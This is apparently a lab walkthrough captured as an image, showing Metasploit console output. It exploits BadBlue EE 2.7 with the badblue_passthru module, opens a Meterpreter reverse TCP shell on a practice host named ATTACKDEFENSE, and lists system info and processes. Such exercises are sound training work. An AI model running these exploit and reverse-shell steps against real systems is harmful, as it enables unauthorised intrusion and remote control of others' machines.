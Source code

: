 ```
   RHOSTS   10.0.21.9        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.21.3       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   BadBlue EE 2.7 Universal


msf6 exploit(windows/http/badblue_passthru) > set target 
set target 0                            set target BadBlue\ 2.72b\ Universal    
set target 1                            set target BadBlue\ EE\ 2.7\ Universal  
msf6 exploit(windows/http/badblue_passthru) > set target BadBlue\ EE\ 2.7\ Universal 
target => BadBlue EE 2.7 Universal

```

```
msf6 exploit(windows/http/badblue_passthru) > exploit

[*] Started reverse TCP handler on 10.10.21.3:4444 
[*] Trying target BadBlue EE 2.7 Universal...
[*] Sending stage (175174 bytes) to 10.0.21.9
[*] Meterpreter session 1 opened (10.10.21.3:4444 -> 10.0.21.9:50220) at 2023-02-18 15:09:43 +0530

meterpreter > sysinfo
Computer        : ATTACKDEFENSE
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows

```

```
meterpreter > ps

Process List
============

 PID   PPID  Name                     Arch  Session  User                          Path
 ---   ----  ----                     ----  -------  ----                          ----
 0     0     [System Process]                                                      
 4     0     System                   x64   0                                      
 88    4     Registry                 x64   0                                      
 392   4     smss.exe                 x64   0                                      
 432   768   svchost.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
```
